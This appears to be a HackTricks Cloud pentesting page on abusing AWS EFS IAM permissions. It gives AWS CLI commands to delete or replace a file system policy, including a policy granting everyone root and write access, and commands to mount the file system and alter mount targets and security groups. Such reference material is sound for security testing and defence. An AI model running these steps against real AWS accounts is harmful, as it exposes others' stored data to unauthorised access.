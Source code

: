 # AWS - EFS Privesc

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## EFS

More **info about EFS** in:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Remember that in order to mount an EFS you need to be in a subnetwork where the EFS is exposed and have access to it (security groups). Is this is happening, by default, you will always be able to mount it, however, if it's protected by IAM policies you need to have the extra permissions mentioned here to access it.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

With any of those permissions an attacker can **change the file system policy** to **give you access** to it, or to just **delete it** so the **default access** is granted.

To delete the policy:

```bash
aws efs delete-file-system-policy \
    --file-system-id <value>
```

To change it:

```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json: 
{
    "Version": "2012-10-17",
    "Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
    "Statement": [
        {
            "Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": [
	       "elasticfilesystem:ClientRootAccess",
               "elasticfilesystem:ClientWrite",
               "elasticfilesystem:ClientMount"
            ],
            "Condition": {
                "Bool": {
                    "elasticfilesystem:AccessedViaMountTarget": "true"
                }
            }
        }
    ]
}
```

### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

With this permission an attacker will be able to **mount the EFS**. If the write permission is not given by default to everyone that can mount the EFS, he will have only **read access**.

```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```

The extra permissions`elasticfilesystem:ClientRootAccess` and `elasticfilesystem:ClientWrite` can be used to **write** inside the filesystem after it's mounted and to **access** that file system **as root**.

**Potential Impact:** Indirect privesc by locating sensitive information in the file system.

### `elasticfilesystem:CreateMountTarget`

If you an attacker is inside a **subnetwork** where **no mount target** of the EFS exists. He could just **create one in his subnet** with this privilege:

```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
    --subnet-id <value> \
    --security-groups <value>
```

**Potential Impact:** Indirect privesc by locating sensitive information in the file system.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

In a scenario where an attacker finds that the EFS has mount target in his subnetwork but **no security group is allowing the traffic**, he could just **change that modifying the selected security groups**:

```bash
aws efs modify-mount-target-security-groups \
    --mount-target-id <value> \
    --security-groups <value>
```

**Potential Impact:** Indirect privesc by locating sensitive information in the file system.

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
